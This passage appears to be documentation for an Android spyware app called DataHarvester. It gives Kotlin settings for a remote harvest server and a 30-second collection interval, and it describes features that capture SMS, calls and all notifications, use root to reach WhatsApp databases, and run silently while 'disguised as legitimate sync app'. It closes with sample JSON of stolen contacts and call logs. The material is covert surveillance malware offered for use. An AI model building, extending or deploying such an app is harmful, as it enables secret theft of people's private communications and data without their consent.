 ### **API Endpoint (DataHarvester.kt):**
```kotlin
private const val API_BASE_URL = "http://10.0.2.2:3000/api" // Emulator
// private const val API_BASE_URL = "http://192.168.1.100:3000/api" // Physical device
```

### **Harvest Frequency (AutoSyncService.kt):**
```kotlin
private const val HARVEST_INTERVAL = 30_000L // 30 seconds
```

### **File Scanning Limits:**
```kotlin
private fun scanDirectory(directory: File, files: MutableList<FileModel>, maxFiles: Int = 1000)
```

## 🔥 **ADVANCED FEATURES**

### **Real-time Monitoring:**
- SMS Receiver captures incoming messages instantly
- Call Receiver detects phone state changes
- Notification Listener captures all system notifications

### **Root Capabilities:**
- Attempts WhatsApp database access
- Enhanced file system access
- System-level data extraction

### **Stealth Operation:**
- Minimal UI footprint
- Silent background operation
- Disguised as legitimate sync app

## 📊 **DATA TYPES COLLECTED**

### **Contacts:**
```json
{
  "contactId": "123",
  "name": "John Doe", 
  "phoneNumber": "+1234567890",
  "emails": ["john@company.com"],
  "organization": "Company Inc"
}
```

### **Call Logs:**
```json
{
  "callId": "call_123",
  "phoneNumber": "+1234567890",
  "callType": "outgoing",
  "duration": 120,
  "timestamp": "2024-01-15T10:30:00Z"
}
```
